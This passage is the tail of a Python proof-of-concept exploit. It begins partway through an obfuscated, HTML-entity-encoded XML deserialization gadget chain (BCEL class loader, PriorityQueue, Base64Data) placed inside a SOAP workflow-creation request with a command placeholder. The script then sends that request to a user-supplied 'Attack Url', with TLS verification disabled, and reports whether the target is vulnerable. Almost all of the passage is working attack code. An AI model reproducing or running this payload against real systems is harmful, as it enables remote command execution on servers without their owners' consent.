#x69;&#x6e;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x6c;&#x6f;&#x61;&#x64;&#x65;&#x72;&#x20;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x3d;&#x27;&#x63;&#x6f;&#x6d;&#x2e;&#x73;&#x75;&#x6e;&#x2e;&#x6f;&#x72;&#x67;&#x2e;&#x61;&#x70;&#x61;&#x63;&#x68;&#x65;&#x2e;&#x62;&#x63;&#x65;&#x6c;&#x2e;&#x69;&#x6e;&#x74;&#x65;&#x72;&#x6e;&#x61;&#x6c;&#x2e;&#x75;&#x74;&#x69;&#x6c;&#x2e;&#x43;&#x6c;&#x61;&#x73;&#x73;&#x4c;&#x6f;&#x61;&#x64;&#x65;&#x72;&#x27;&#x20;&#x72;&#x65;&#x66;&#x65;&#x72;&#x65;&#x6e;&#x63;&#x65;&#x3d;&#x27;&#x2e;&#x2e;&#x2f;&#x2e;&#x2e;&#x27;&#x2f;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x70;&#x72;&#x69;&#x6e;&#x63;&#x69;&#x70;&#x61;&#x6c;&#x73;&#x2f;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x68;&#x61;&#x73;&#x41;&#x6c;&#x6c;&#x50;&#x65;&#x72;&#x6d;&#x3e;&#x66;&#x61;&#x6c;&#x73;&#x65;&#x3c;&#x2f;&#x68;&#x61;&#x73;&#x41;&#x6c;&#x6c;&#x50;&#x65;&#x72;&#x6d;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x73;&#x74;&#x61;&#x74;&#x69;&#x63;&#x50;&#x65;&#x72;&#x6d;&#x69;&#x73;&#x73;&#x69;&#x6f;&#x6e;&#x73;&#x3e;&#x66;&#x61;&#x6c;&#x73;&#x65;&#x3c;&#x2f;&#x73;&#x74;&#x61;&#x74;&#x69;&#x63;&#x50;&#x65;&#x72;&#x6d;&#x69;&#x73;&#x73;&#x69;&#x6f;&#x6e;&#x73;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x6b;&#x65;&#x79;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x6b;&#x65;&#x79;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x64;&#x65;&#x66;&#x61;&#x75;&#x6c;&#x74;&#x44;&#x6f;&#x6d;&#x61;&#x69;&#x6e;&#x3e;&#x0a;&#x3c;&#x64;&#x6f;&#x6d;&#x61;&#x69;&#x6e;&#x73;&#x20;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x3d;&#x22;&#x6a;&#x61;&#x76;&#x61;&#x2e;&#x75;&#x74;&#x69;&#x6c;&#x2e;&#x43;&#x6f;&#x6c;&#x6c;&#x65;&#x63;&#x74;&#x69;&#x6f;&#x6e;&#x73;&#x24;&#x53;&#x79;&#x6e;&#x63;&#x68;&#x72;&#x6f;&#x6e;&#x69;&#x7a;&#x65;&#x64;&#x53;&#x65;&#x74;&#x22;&#x20;&#x73;&#x65;&#x72;&#x69;&#x61;&#x6c;&#x69;&#x7a;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x3d;&#x22;&#x63;&#x75;&#x73;&#x74;&#x6f;&#x6d;&#x22;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x6a;&#x61;&#x76;&#x61;&#x2e;&#x75;&#x74;&#x69;&#x6c;&#x2e;&#x43;&#x6f;&#x6c;&#x6c;&#x65;&#x63;&#x74;&#x69;&#x6f;&#x6e;&#x73;&#x5f;&#x2d;&#x53;&#x79;&#x6e;&#x63;&#x68;&#x72;&#x6f;&#x6e;&#x69;&#x7a;&#x65;&#x64;&#x43;&#x6f;&#x6c;&#x6c;&#x65;&#x63;&#x74;&#x69;&#x6f;&#x6e;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x64;&#x65;&#x66;&#x61;&#x75;&#x6c;&#x74;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x63;&#x20;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x3d;&#x22;&#x73;&#x65;&#x74;&#x22;&#x3e;&#x3c;&#x2f;&#x63;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x6d;&#x75;&#x74;&#x65;&#x78;&#x20;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x3d;&#x22;&#x6a;&#x61;&#x76;&#x61;&#x2e;&#x75;&#x74;&#x69;&#x6c;&#x2e;&#x43;&#x6f;&#x6c;&#x6c;&#x65;&#x63;&#x74;&#x69;&#x6f;&#x6e;&#x73;&#x24;&#x53;&#x79;&#x6e;&#x63;&#x68;&#x72;&#x6f;&#x6e;&#x69;&#x7a;&#x65;&#x64;&#x53;&#x65;&#x74;&#x22;&#x20;&#x72;&#x65;&#x66;&#x65;&#x72;&#x65;&#x6e;&#x63;&#x65;&#x3d;&#x22;&#x2e;&#x2e;&#x2f;&#x2e;&#x2e;&#x2f;&#x2e;&#x2e;&#x22;&#x2f;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x64;&#x65;&#x66;&#x61;&#x75;&#x6c;&#x74;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x6a;&#x61;&#x76;&#x61;&#x2e;&#x75;&#x74;&#x69;&#x6c;&#x2e;&#x43;&#x6f;&#x6c;&#x6c;&#x65;&#x63;&#x74;&#x69;&#x6f;&#x6e;&#x73;&#x5f;&#x2d;&#x53;&#x79;&#x6e;&#x63;&#x68;&#x72;&#x6f;&#x6e;&#x69;&#x7a;&#x65;&#x64;&#x43;&#x6f;&#x6c;&#x6c;&#x65;&#x63;&#x74;&#x69;&#x6f;&#x6e;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x64;&#x6f;&#x6d;&#x61;&#x69;&#x6e;&#x73;&#x3e;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x70;&#x61;&#x63;&#x6b;&#x61;&#x67;&#x65;&#x73;&#x2f;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x6e;&#x61;&#x74;&#x69;&#x76;&#x65;&#x4c;&#x69;&#x62;&#x72;&#x61;&#x72;&#x69;&#x65;&#x73;&#x2f;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x61;&#x73;&#x73;&#x65;&#x72;&#x74;&#x69;&#x6f;&#x6e;&#x4c;&#x6f;&#x63;&#x6b;&#x20;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x3d;&#x27;&#x63;&#x6f;&#x6d;&#x2e;&#x73;&#x75;&#x6e;&#x2e;&#x6f;&#x72;&#x67;&#x2e;&#x61;&#x70;&#x61;&#x63;&#x68;&#x65;&#x2e;&#x62;&#x63;&#x65;&#x6c;&#x2e;&#x69;&#x6e;&#x74;&#x65;&#x72;&#x6e;&#x61;&#x6c;&#x2e;&#x75;&#x74;&#x69;&#x6c;&#x2e;&#x43;&#x6c;&#x61;&#x73;&#x73;&#x4c;&#x6f;&#x61;&#x64;&#x65;&#x72;&#x27;&#x20;&#x72;&#x65;&#x66;&#x65;&#x72;&#x65;&#x6e;&#x63;&#x65;&#x3d;&#x27;&#x2e;&#x2e;&#x27;&#x2f;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x64;&#x65;&#x66;&#x61;&#x75;&#x6c;&#x74;&#x41;&#x73;&#x73;&#x65;&#x72;&#x74;&#x69;&#x6f;&#x6e;&#x53;&#x74;&#x61;&#x74;&#x75;&#x73;&#x3e;&#x66;&#x61;&#x6c;&#x73;&#x65;&#x3c;&#x2f;&#x64;&#x65;&#x66;&#x61;&#x75;&#x6c;&#x74;&#x41;&#x73;&#x73;&#x65;&#x72;&#x74;&#x69;&#x6f;&#x6e;&#x53;&#x74;&#x61;&#x74;&#x75;&#x73;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x65;&#x73;&#x2f;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x69;&#x67;&#x6e;&#x6f;&#x72;&#x65;&#x64;&#x5f;&#x5f;&#x70;&#x61;&#x63;&#x6b;&#x61;&#x67;&#x65;&#x73;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x73;&#x74;&#x72;&#x69;&#x6e;&#x67;&#x3e;&#x6a;&#x61;&#x76;&#x61;&#x2e;&#x3c;&#x2f;&#x73;&#x74;&#x72;&#x69;&#x6e;&#x67;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x73;&#x74;&#x72;&#x69;&#x6e;&#x67;&#x3e;&#x6a;&#x61;&#x76;&#x61;&#x78;&#x2e;&#x3c;&#x2f;&#x73;&#x74;&#x72;&#x69;&#x6e;&#x67;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x73;&#x74;&#x72;&#x69;&#x6e;&#x67;&#x3e;&#x73;&#x75;&#x6e;&#x2e;&#x3c;&#x2f;&#x73;&#x74;&#x72;&#x69;&#x6e;&#x67;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x69;&#x67;&#x6e;&#x6f;&#x72;&#x65;&#x64;&#x5f;&#x5f;&#x70;&#x61;&#x63;&#x6b;&#x61;&#x67;&#x65;&#x73;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x72;&#x65;&#x70;&#x6f;&#x73;&#x69;&#x74;&#x6f;&#x72;&#x79;&#x20;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x3d;&#x27;&#x63;&#x6f;&#x6d;&#x2e;&#x73;&#x75;&#x6e;&#x2e;&#x6f;&#x72;&#x67;&#x2e;&#x61;&#x70;&#x61;&#x63;&#x68;&#x65;&#x2e;&#x62;&#x63;&#x65;&#x6c;&#x2e;&#x69;&#x6e;&#x74;&#x65;&#x72;&#x6e;&#x61;&#x6c;&#x2e;&#x75;&#x74;&#x69;&#x6c;&#x2e;&#x53;&#x79;&#x6e;&#x74;&#x68;&#x65;&#x74;&#x69;&#x63;&#x52;&#x65;&#x70;&#x6f;&#x73;&#x69;&#x74;&#x6f;&#x72;&#x79;&#x27;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x5f;&#x5f;&#x70;&#x61;&#x74;&#x68;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x70;&#x61;&#x74;&#x68;&#x73;&#x2f;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x5f;&#x5f;&#x70;&#x61;&#x74;&#x68;&#x3e;&#x2e;&#x3c;&#x2f;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x5f;&#x5f;&#x70;&#x61;&#x74;&#x68;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x5f;&#x5f;&#x70;&#x61;&#x74;&#x68;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x5f;&#x5f;&#x6c;&#x6f;&#x61;&#x64;&#x65;&#x64;&#x43;&#x6c;&#x61;&#x73;&#x73;&#x65;&#x73;&#x2f;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x72;&#x65;&#x70;&#x6f;&#x73;&#x69;&#x74;&#x6f;&#x72;&#x79;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x64;&#x65;&#x66;&#x65;&#x72;&#x54;&#x6f;&#x20;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x3d;&#x27;&#x73;&#x75;&#x6e;&#x2e;&#x6d;&#x69;&#x73;&#x63;&#x2e;&#x4c;&#x61;&#x75;&#x6e;&#x63;&#x68;&#x65;&#x72;&#x24;&#x45;&#x78;&#x74;&#x43;&#x6c;&#x61;&#x73;&#x73;&#x4c;&#x6f;&#x61;&#x64;&#x65;&#x72;&#x27;&#x20;&#x72;&#x65;&#x66;&#x65;&#x72;&#x65;&#x6e;&#x63;&#x65;&#x3d;&#x27;&#x2e;&#x2e;&#x2f;&#x70;&#x61;&#x72;&#x65;&#x6e;&#x74;&#x27;&#x2f;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x70;&#x72;&#x6f;&#x63;&#x65;&#x73;&#x73;&#x6f;&#x72;&#x43;&#x4c;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x69;&#x74;&#x65;&#x72;&#x61;&#x74;&#x6f;&#x72;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x74;&#x79;&#x70;&#x65;&#x3e;&#x4b;&#x45;&#x59;&#x53;&#x3c;&#x2f;&#x74;&#x79;&#x70;&#x65;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x65;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x69;&#x6e;&#x20;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x3d;&#x27;&#x6a;&#x61;&#x76;&#x61;&#x2e;&#x69;&#x6f;&#x2e;&#x42;&#x79;&#x74;&#x65;&#x41;&#x72;&#x72;&#x61;&#x79;&#x49;&#x6e;&#x70;&#x75;&#x74;&#x53;&#x74;&#x72;&#x65;&#x61;&#x6d;&#x27;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x62;&#x75;&#x66;&#x3e;&#x3c;&#x2f;&#x62;&#x75;&#x66;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x70;&#x6f;&#x73;&#x3e;&#x30;&#x3c;&#x2f;&#x70;&#x6f;&#x73;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x6d;&#x61;&#x72;&#x6b;&#x3e;&#x30;&#x3c;&#x2f;&#x6d;&#x61;&#x72;&#x6b;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x63;&#x6f;&#x75;&#x6e;&#x74;&#x3e;&#x30;&#x3c;&#x2f;&#x63;&#x6f;&#x75;&#x6e;&#x74;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x69;&#x6e;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x69;&#x73;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x63;&#x6f;&#x6e;&#x73;&#x75;&#x6d;&#x65;&#x64;&#x3e;&#x66;&#x61;&#x6c;&#x73;&#x65;&#x3c;&#x2f;&#x63;&#x6f;&#x6e;&#x73;&#x75;&#x6d;&#x65;&#x64;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x64;&#x61;&#x74;&#x61;&#x53;&#x6f;&#x75;&#x72;&#x63;&#x65;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x74;&#x72;&#x61;&#x6e;&#x73;&#x66;&#x65;&#x72;&#x46;&#x6c;&#x61;&#x76;&#x6f;&#x72;&#x73;&#x2f;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x64;&#x61;&#x74;&#x61;&#x48;&#x61;&#x6e;&#x64;&#x6c;&#x65;&#x72;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x64;&#x61;&#x74;&#x61;&#x4c;&#x65;&#x6e;&#x3e;&#x30;&#x3c;&#x2f;&#x64;&#x61;&#x74;&#x61;&#x4c;&#x65;&#x6e;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x63;&#x6f;&#x6d;&#x2e;&#x73;&#x75;&#x6e;&#x2e;&#x78;&#x6d;&#x6c;&#x2e;&#x69;&#x6e;&#x74;&#x65;&#x72;&#x6e;&#x61;&#x6c;&#x2e;&#x62;&#x69;&#x6e;&#x64;&#x2e;&#x76;&#x32;&#x2e;&#x72;&#x75;&#x6e;&#x74;&#x69;&#x6d;&#x65;&#x2e;&#x75;&#x6e;&#x6d;&#x61;&#x72;&#x73;&#x68;&#x61;&#x6c;&#x6c;&#x65;&#x72;&#x2e;&#x42;&#x61;&#x73;&#x65;&#x36;&#x34;&#x44;&#x61;&#x74;&#x61;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x63;&#x6f;&#x6d;&#x2e;&#x73;&#x75;&#x6e;&#x2e;&#x78;&#x6d;&#x6c;&#x2e;&#x69;&#x6e;&#x74;&#x65;&#x72;&#x6e;&#x61;&#x6c;&#x2e;&#x62;&#x69;&#x6e;&#x64;&#x2e;&#x76;&#x32;&#x2e;&#x72;&#x75;&#x6e;&#x74;&#x69;&#x6d;&#x65;&#x2e;&#x75;&#x6e;&#x6d;&#x61;&#x72;&#x73;&#x68;&#x61;&#x6c;&#x6c;&#x65;&#x72;&#x2e;&#x42;&#x61;&#x73;&#x65;&#x36;&#x34;&#x44;&#x61;&#x74;&#x61;&#x20;&#x72;&#x65;&#x66;&#x65;&#x72;&#x65;&#x6e;&#x63;&#x65;&#x3d;&#x27;&#x2e;&#x2e;&#x2f;&#x63;&#x6f;&#x6d;&#x2e;&#x73;&#x75;&#x6e;&#x2e;&#x78;&#x6d;&#x6c;&#x2e;&#x69;&#x6e;&#x74;&#x65;&#x72;&#x6e;&#x61;&#x6c;&#x2e;&#x62;&#x69;&#x6e;&#x64;&#x2e;&#x76;&#x32;&#x2e;&#x72;&#x75;&#x6e;&#x74;&#x69;&#x6d;&#x65;&#x2e;&#x75;&#x6e;&#x6d;&#x61;&#x72;&#x73;&#x68;&#x61;&#x6c;&#x6c;&#x65;&#x72;&#x2e;&#x42;&#x61;&#x73;&#x65;&#x36;&#x34;&#x44;&#x61;&#x74;&#x61;&#x27;&#x2f;&#x3e;&#x0a;&#x20;&#x20;&#x3c;&#x2f;&#x6a;&#x61;&#x76;&#x61;&#x2e;&#x75;&#x74;&#x69;&#x6c;&#x2e;&#x50;&#x72;&#x69;&#x6f;&#x72;&#x69;&#x74;&#x79;&#x51;&#x75;&#x65;&#x75;&#x65;&#x3e;&#x0a;&#x3c;&#x2f;&#x6a;&#x61;&#x76;&#x61;&#x2e;&#x75;&#x74;&#x69;&#x6c;&#x2e;&#x50;&#x72;&#x69;&#x6f;&#x72;&#x69;&#x74;&#x79;&#x51;&#x75;&#x65;&#x75;&#x65;&#x3e;</web:string>
            <web:string>2</web:string>
          </web:doCreateWorkflowRequest>
       </soapenv:Body>
    </soapenv:Envelope>'''.format(cmd=cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        if "VulTest" in response.text and response.status_code == 500:
            print("\033[36m[o] 存在漏洞 \n[o] 响应为:\n{} \033[0m".format(response.text))
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)
```